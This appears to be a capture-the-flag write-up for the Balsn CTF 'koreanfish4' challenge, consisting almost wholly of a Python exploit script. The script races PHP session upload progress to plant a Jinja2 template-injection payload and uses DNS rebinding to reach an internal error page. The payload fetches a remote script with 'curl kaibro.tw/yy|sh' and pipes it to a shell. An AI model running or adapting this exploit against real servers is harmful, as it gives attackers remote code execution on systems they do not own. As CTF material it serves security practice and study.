 OK! Let's Race it!

Exploit script:

```python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool

HOST = 'http://koreanfish4.balsnctf.com/index.php'
sess_name = 'iamkaibro'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = """
{% for c in []['__class__']['__base__']['__subclasses__']() %}
{% if c['__name__'] == 'catch_warnings' %}
{% for b in c['__init__']['__globals__']['values']() %}
{% if b['__class__']=={}['__class__'] %}
{% if 'eval' in b['keys']() %}
{% if b['eval']('__import__("os")\\x2epopen("curl kaibro\\x2etw/yy\\x7csh")') %}{% endif %}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
"""

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': payload
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    # print filename
    while 1:
        url = '{}?%F0%9F%87%B0%F0%9F%87%B7%F0%9F%90%9F=http://36573657.7f000001.rbndr.us:5000//korea/error_page%3Ferr={}'.format(HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        print [c]

if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```
